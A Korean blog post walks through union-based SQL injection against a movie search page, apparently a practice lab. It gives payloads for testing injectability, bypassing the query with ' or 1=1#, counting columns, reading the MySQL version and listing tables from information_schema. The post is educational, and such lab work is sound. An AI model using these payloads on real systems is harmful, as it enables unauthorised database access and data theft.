 ```yaml
---
layout: post
title: "Webhacking(SQL_Injection)"
date: 2021-01-01 09:44:00 +0900
background: "/img/posts/03.jpg"
categories: ["development"]
---
```


SQL_Injection
=============

SQL 인젝션은 사용자가 입력한 값을 서버에서 검증하지 않고 데이터베이스
쿼리 일부분으로인식하여 데이터베이스의 정보가 노출되거나 인증이 우회되는 
취약점이다. <br>
SQL 인젝션은 사용자가 데이터를 입력할 수 있는 곳 어디에서든 발생할 수 있다.

### GET/Search

* SQL 인젝션이 가능한지 확인
> SELECT * FROM movies WHERE title LIKE ' ' ' <br>
==> ' 를 사용하는 이유 <br> :: 데이터베이스에서 작음따옴표로 문자데이터를
                              구분하기 떄문이다.

![SQL 인젝션 가능여부 확인](https://user-images.githubusercontent.com/76092057/103431891-ce5d1700-4c1a-11eb-9b66-b619954a55a3.PNG){: width:"100%" height:"100%"}

==> 오류 메세지에는 데이터베이스 서버 정보가 포함되는데, 데이터베이스
서버의 종류에 따라 SQL 구문이 다르므로 가장 먼저 서버 정보를 확인<br>
@@ 현재 : MySQL

* 쿼리를 입력하여 어떤 주석 문자를 사용하는지 확인 <br> ==> 쿼리 결과를 항상
참으로 만들고 기존 코드의 뒷부분을 주석 처리한다.

1. ' or 1=1--
2. ' or 1=1#

![SQL 쿼리 성공](https://user-images.githubusercontent.com/76092057/103432134-25182000-4c1e-11eb-8cab-69f34d819943.PNG){: width:"100%" height:"100%"}
@@ 결과 :: 첫번째 쿼리에서는 오류, 두번째 쿼리는 모든 영화 자료가 출력된다.


* 더 자세한 정보를 알아내기 위해 UNION SELECT 구문을 사용<br>
==> UNION :: SELECT 문이 둘 이상일 때 이를 결합하여 두 질의의 결과를
하나로 반환한다. (UNION Based SQL Injection)

> UNION SELECT ALL 1# <br>
==> UNION 구문을 사용하기 위해서는 SELECT 문의 칼럼수가 일치해야함

> ' UNION SELECT ALL 1,2,3,4,5,6,7# <br>
==> 칼럼을 계속 추가하여 확인
![SQL 인젝션 UNION 문](https://user-images.githubusercontent.com/76092057/103432258-b340d600-4c1f-11eb-9645-821ad117feab.PNG){: width:"100%" height:"100%"}

> 0' UNION SELECT ALL 1,@@version,3,4,5,6,7# <br>
==> MySQL 버전을 확인하기 위하여 시스템 변수나 시스템 함수를 활용하여 쿼리 입력,
페이지에 노출되는 칼럼은 2,3,4,5번에 위치함으로 이중 하나에 시스템 변수를 삽입
![SQL 인젝션 MySQL 버전 확인](https://user-images.githubusercontent.com/76092057/103432327-7aedc780-4c20-11eb-921d-2365db1547a9.PNG){: width:"100%" height:"100%"}
@@ 버전 : 5.0.96

* information_schema를 사용하여 테이블 명을 확인
  > 0' UNION SELECT ALL 1,table_name,3,4,5,6,7 from information_schema.tables# 
![SQL 인젝션 모든 테이블명](https://user-images.githubusercontent.com/76092057/103432398-81c90a00-4c21-11eb-842a-f34de5eb7b17.PNG){: width:"100%" height:"100%"}

* 출력한 정보를 토대로 users 테이블에 사용자 계정 정보가 들어있음을 추측,
where 절로 users 테이블 정보만 출력하게 조건을 지정한다.



